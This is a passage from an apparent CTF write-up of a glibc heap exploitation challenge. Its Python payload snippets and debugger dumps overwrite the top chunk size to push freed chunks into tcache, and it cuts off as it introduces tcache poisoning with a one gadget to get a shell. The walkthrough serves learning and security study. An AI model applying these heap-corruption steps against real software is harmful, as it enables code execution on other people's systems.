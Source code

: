 ```
gef➤  x/4xg 0x0000557c12fc2020 + (0xcf0 - 0x10)
0x557c12fc2d00: 0x0000000000000000  0x0000000000020301
0x557c12fc2d10: 0x0000000000000000  0x0000000000000000
```

So now we just need to change top chunk size, then `malloc(0x1000)` again and we have a 0x300-byte chunk is freed:

```python
# Change top chunk size
payload = b'\x00'* (0xcf0-0x10)
payload += b'\x00'*8
payload += p64(0x301)               # Remember PREV_INUSE bit
gets(1, payload)

# Trigger to free top chunk
malloc(2, 0x1000)
```

Do you notice why I use chunk 2 to trigger to free top chunk? Because after we trigger that, the top chunk will go to tcache. So with the remain of chunk 1 address, we can control the freed top chunk.

Running script and we get our first freed chunk in tcache:

![free_topchunk_into_tcache1.png](/static/images/mocsctf-2022/free_topchunk_into_tcache1.png)

So with the chunk 2, we will do the same as chunk 1 to get the second freed chunk:

```python
# Change top chunk size to 0x20300
malloc(2, 0xcf0-0x10)

# Overwrite top chunk size to 0x300
payload = b'\x00'* (0xcf0-0x10)
payload += b'\x00'*8
payload += p64(0x301)
gets(2, payload)

# Trigger to free top chunk
malloc(3, 0x1000)
```

And we get the second freed chunk in tcache:

![free_topchunk_into_tcache2.png](/static/images/mocsctf-2022/free_topchunk_into_tcache2.png)

With 2 freed chunk in tcache, we are very closed to the shell. Let’s move on final stage: Get shell!

### Stage 3: Get shell

This time, we will abuse tcache link list by changing forward pointer to whatever place we want. But first, let’s find a one gadget that we can use:
